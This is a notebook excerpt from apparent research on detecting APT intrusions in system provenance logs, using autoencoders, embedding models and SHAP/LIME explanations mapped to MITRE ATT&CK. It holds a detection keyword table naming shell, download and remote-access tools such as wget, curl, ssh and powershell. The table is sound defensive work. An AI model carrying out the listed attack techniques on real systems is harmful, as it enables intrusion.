        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. DYNAMIC WEIGHT FINDER (Fixes the "Weights Not Found" error)
    mod_name_clean = model_name.replace(' ', '')
    
    # Automatically cleans the context string using the current EMBEDDING_NAME
    base_context = context.replace(f'_{EMBEDDING_NAME}', '') 
    
    matched_weight_file = None
    if os.path.exists(MODEL_SAVE_DIR):
        for f in os.listdir(MODEL_SAVE_DIR):
            # Check if all identifying parts are in the filename, regardless of exact order
            if performer in f and mod_name_clean in f and base_context in f and f.endswith('.pth'):
                matched_weight_file = f
                break
    
    if not matched_weight_file:
        return None # Skip if weights don't exist
        
    weight_path = os.path.join(MODEL_SAVE_DIR, matched_weight_file)
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found in {MODEL_SAVE_DIR}.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for E5_MISTRAL on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll
    -> Baseline Done! F1: 0.1176 | PR-AUC: 0.0389
    -> Sparse Done! F1: 0.0909 | PR-AUC: 0.0358
    -> Deep SVDD Done! F1: 0.1667 | PR-AUC: 0.0961
    -> DAE Done! F1: 0.1333 | PR-AUC: 0.0348
    -> VAE Done! F1: 0.0295 | PR-AUC: 0.0105
    -> Beta-VAE Done! F1: 0.0295 | PR-AUC: 0.0119
    -> GMVAE Done! F1: 0.0909 | PR-AUC: 0.0354
    -> Attention AE Done! F1: 0.0909 | PR-AUC: 0.0356
    -> LSTMAE Done! F1: 0.1 | PR-AUC: 0.0432
    -> Robust Done! F1: 0.0816 | PR-AUC: 0.0373
    -> Contractive Done! F1: 0.0755 | PR-AUC: 0.0308

Evaluating: 5DIR - ProcessEvent
    -> Baseline Done! F1: 0.0645 | PR-AUC: 0.0222
    -> Sparse Done! F1: 0.1143 | PR-AUC: 0.0296
    -> Deep SVDD Done! F1: 0.1176 | PR-AUC: 0.0385
    -> DAE Done! F1: 0.1026 | PR-AUC: 0.0292
    -> VAE Done! F1: 0.0208 | PR-AUC: 0.0075
    -> Beta-VAE Done! F1: 0.0224 | PR-AUC: 0.0

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Baseline Done! F1: 0.0 | PR-AUC: 0.0
    -> Sparse Done! F1: 0.0 | PR-AUC: 0.0
    -> Deep SVDD Done! F1: 0.0 | PR-AUC: 0.0
    -> DAE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Beta-VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll
    -> Baseline Done! F1: 0.6627 | PR-AUC: 0.6831
    -> Sparse Done! F1: 0.0396 | PR-AUC: 0.0107
    -> Deep SVDD Done! F1: 0.0187 | PR-AUC: 0.0032
    -> DAE Done! F1: 0.2257 | PR-AUC: 0.0806
    -> VAE Done! F1: 0.0234 | PR-AUC: 0.0081
    -> Beta-VAE Done! F1: 0.0238 | PR-AUC: 0.0078
    -> GMVAE Done! F1: 0.03 | PR-AUC: 0.0085
    -> Attention AE Done! F1: 0.032 | PR-AUC: 0.0102
    -> LSTMAE Done! F1: 0.6199 | PR-AUC: 0.5773
    -> Robust Done! F1: 0.6909 | PR-AUC: 0.713
    -> Contractive Done! F1: 0.0296 | PR-AUC: 0.01

Evaluating: THEIA - ProcessEvent
    -> Baseline Done! F1: 0.7562 | PR-AUC: 0.6818
    -> Sparse Done! F1: 0.0825 | PR-AUC: 0.0155
    -> Deep SVDD Done! F1: 0.0192 | PR-AUC: 0.0043
    -> DAE Done! F1: 0.2166 | PR-AUC: 0.059
    -> VAE Done! F1: 0.0213 | PR-AUC: 0.0046
    -> Beta-VAE Done! F1: 0.0204

#### XAI Integration and MITRE ATT&CK mapping

In [2]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel, BitsAndBytesConfig
import transformers.modeling_utils
import transformers.cache_utils as cache_utils
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 0. THE 4-BIT & MISTRAL CACHE HOTFIXES
# ==========================================
# 1. Intercept the illegal 4-bit .to() call
if not hasattr(transformers.modeling_utils.PreTrainedModel, "_patched_to_applied"):
    _orig_to = transformers.modeling_utils.PreTrainedModel.to
    def _patched_to(self, *args, **kwargs):
        try:
            return _orig_to(self, *args, **kwargs)
        except ValueError as e:
            if "is not supported for `4-bit`" in str(e):
                return self 
            raise e
    transformers.modeling_utils.PreTrainedModel.to = _patched_to
    transformers.modeling_utils.PreTrainedModel._patched_to_applied = True

# 2. Patch missing Mistral cache methods for newer transformers versions
if hasattr(cache_utils, "DynamicCache"):
    if not hasattr(cache_utils.DynamicCache, "from_legacy_cache"):
        @classmethod
        def from_legacy_cache(cls, past_key_values=None):
            cache = cls()
            if past_key_values is not None:
                for layer_idx, (key_states, value_states) in enumerate(past_key_values):
                    cache.update(key_states, value_states, layer_idx)
            return cache
        cache_utils.DynamicCache.from_legacy_cache = from_legacy_cache

    if not hasattr(cache_utils.DynamicCache, "get_usable_length"):
        def get_usable_length(self, new_seq_length, layer_idx=0):
            return self.get_seq_length(layer_idx) if hasattr(self, "get_seq_length") else 0
        cache_utils.DynamicCache.get_usable_length = get_usable_length

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [E5-MISTRAL UPDATE] 
EMBEDDER_NAME = "intfloat/e5-mistral-7b-instruct" 
INPUT_DIM = 4096  # CRITICAL: Mistral-7B uses massive 4096-dimensional vectors!

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "whoami": "T1033 - System Owner/User Discovery",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "ssh": "T1021.004 - Remote Services: SSH",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 80": "T1071.001 - Application Layer Protocol: Web Protocols",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell"
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return f"[Error] Local API returned status {response.status_code}"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER 
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} with 4-bit Quantization...")
        
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name, trust_remote_code=True)
        
        # [CRITICAL LLM FIX]: Decoder models MUST use left padding
        self.tokenizer.padding_side = 'left'
        if self.tokenizer.pad_token is None:
            self.tokenizer.pad_token = self.tokenizer.eos_token 

        # Forces the 7B model to ~4.5GB VRAM footprint
        bnb_config = BitsAndBytesConfig(
            load_in_4bit=True,
            bnb_4bit_compute_dtype=torch.float16,
            bnb_4bit_use_double_quant=True
        )

        self.embedder = AutoModel.from_pretrained(
            embedder_name, 
            trust_remote_code=True,
            quantization_config=bnb_config,
            device_map={"": self.device} 
        )
        
        # [THE SURGICAL CPU-TO-GPU FIX]
        # Hunt down the 'rotary_emb' math components that Hugging Face
        # leaves stranded on the CPU, and force them to the GPU.
        for module in self.embedder.modules():
            if hasattr(module, 'rotary_emb'):
                module.rotary_emb.to(self.device)
            if hasattr(module, 'inv_freq'):
                module.inv_freq = module.inv_freq.to(self.device)
                
        # Catch any other stranded parameters/buffers
        for param in self.embedder.parameters():
            if param.device.type == 'cpu':
                param.data = param.data.to(self.device)
        for buffer in self.embedder.buffers():
            if buffer.device.type == 'cpu':
                buffer.data = buffer.data.to(self.device)
                
        self.embedder.eval()
        
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        # E5-Mistral Requires the EOS token appended
        formatted_texts = [f"{text}{self.tokenizer.eos_token}" for text in text_list]

        batch_size = 2 
        all_errors = []
        
        ac_device = 'cuda' if 'cuda' in self.device else 'cpu'
        
        for i in range(0, len(formatted_texts), batch_size):
            batch_texts = formatted_texts[i:i+batch_size]
            
            inputs = self.tokenizer(
                batch_texts, 
                padding=True, 
                truncation=True, 
                max_length=128, 
                return_tensors="pt"
            ).to(self.device)

            if "token_type_ids" in inputs:
                del inputs["token_type_ids"]

            with torch.amp.autocast(ac_device):
                with torch.inference_mode():
                    outputs = self.embedder(**inputs)
                    
                    # [MISTRAL POOLING]: Extract the last token
                    embeddings = outputs.last_hidden_state[:, -1, :] 
                    embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                    
                    embeddings = embeddings.to(torch.float32)
                    
                    reconstructed = self.ae_model(embeddings)
                    errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                    all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)

# Target the E5-Mistral specific weights folder
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_e5_mistral", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    state_dict = torch.load(weight_path, map_location='cpu')
    ae_model.load_state_dict(state_dict)
    ae_model = ae_model.to(DEVICE)
    print(f"✓ Loaded weights safely: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5)
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    if weight > 0 and len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: +{weight:.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN SHAP 
            # ==========================================
            print("\nCalculating SHAP values (Optimized speed...)")
            shap_values = shap_explainer(raw_apt_log, max_evals=100)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: x[1], reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    if score > 0 and len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: +{score:.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded.")

Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights safely: saved_weights_e5_mistral\theia_ProcessAll_Baseline.pth
Loading intfloat/e5-mistral-7b-instruct with 4-bit Quantization...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(
Loading checkpoint shards: 100%|██████████| 2/2 [00:18<00:00,  9.25s/it]



Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...
Top LIME Anomaly Drivers:

Calculating SHAP values (Optimized speed...)



SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Top SHAP Anomaly Drivers:
 -> 'and' (Anomaly Impact: +0.0000)
    [i] No MITRE mapping found.


### 4. `Salesforce/SFR-Embedding-Mistral`

#### Embedding generation

In [ ]:
import pandas as pd
import numpy as np
import torch
import torch.nn.functional as F
import pickle
import os
from transformers import AutoTokenizer, AutoModel, PreTrainedModel, BitsAndBytesConfig

# ==========================================
# 1. CONFIGURATION
# ==========================================
INPUT_FILE = 'all_data_with_sentences.pkl'
MODEL_NAME = 'Salesforce/SFR-Embedding-Mistral'

# 4-bit quantization shrinks the model to ~4.5GB.
# A batch size of 8 is highly efficient and safe for 16GB VRAM.
BATCH_SIZE = 8

# [SPEED FIX] Dropped from 2048 to 512. 
# This instantly doubles processing speed while retaining plenty 
# of context for critical log event data.
MAX_SEQ_LENGTH = 512

# ==========================================
# 2. LOAD RESOURCES
# ==========================================
device = 'cuda' if torch.cuda.is_available() else 'cpu'
print(f"Using device: {device.upper()}")

# Monkey patch for legacy transformer version compatibility
if not hasattr(PreTrainedModel, "all_tied_weights_keys"):
    PreTrainedModel.all_tied_weights_keys = property(lambda self: [])

print(f"Loading model: {MODEL_NAME} (4-Bit Quantized + Flash Attention)...")

# Setup 4-bit Quantization Configuration
quant_config = BitsAndBytesConfig(
    load_in_4bit=True,
    bnb_4bit_compute_dtype=torch.float16, 
    bnb_4bit_use_double_quant=True,       
    bnb_4bit_quant_type="nf4"             
)

# Load Tokenizer 
tokenizer = AutoTokenizer.from_pretrained(MODEL_NAME)

# [SAFETY FIX] Mistral tokenizers sometimes lack a default pad token.
# This prevents the script from crashing during the batching phase.
if tokenizer.pad_token is None:
    tokenizer.pad_token = tokenizer.eos_token

# Load the model with quantization AND Flash Attention 2

model = AutoModel.from_pretrained(
    MODEL_NAME, 
    quantization_config=quant_config,
    device_map=device,
    attn_implementation="flash_attention_2"  # [SPEED FIX] Hardware acceleration
)
model.eval()

if os.path.exists(INPUT_FILE):
    print(f"Loading data from {INPUT_FILE}...")
    with open(INPUT_FILE, 'rb') as f:
        all_data = pickle.load(f)
else:
    raise FileNotFoundError(f"Missing {INPUT_FILE}. Run the sentence generation step first.")

# ==========================================
# 3. HELPER: LAST TOKEN POOLING
# ==========================================
def last_token_pool(last_hidden_states, attention_mask):
    """
    Extracts the embedding from the last token.
    Required for SFR-Embedding-Mistral (Decoder-only architecture).
    """
    left_padding = (attention_mask[:, -1].sum() == attention_mask.shape[0])
    
    if left_padding:
        return last_hidden_states[:, -1]
    else:
        sequence_lengths = attention_mask.sum(dim=1) - 1
        batch_size = last_hidden_states.shape[0]
        return last_hidden_states[torch.arange(batch_size, device=last_hidden_states.device), sequence_lengths]

def get_sfr_embeddings(text_list, model, tokenizer, batch_size=1):
    all_embeddings = []
    total = len(text_list)
    
    for i in range(0, total, batch_size):
        raw_batch = text_list[i : i + batch_size]
        
        # [CRITICAL LOGIC FIX] 
        # Like E5, SFR strictly requires the EOS token at the end of every sequence 
        # for last-token pooling to extract the correct contextual representation.
        batch_texts = [text + tokenizer.eos_token for text in raw_batch]
        
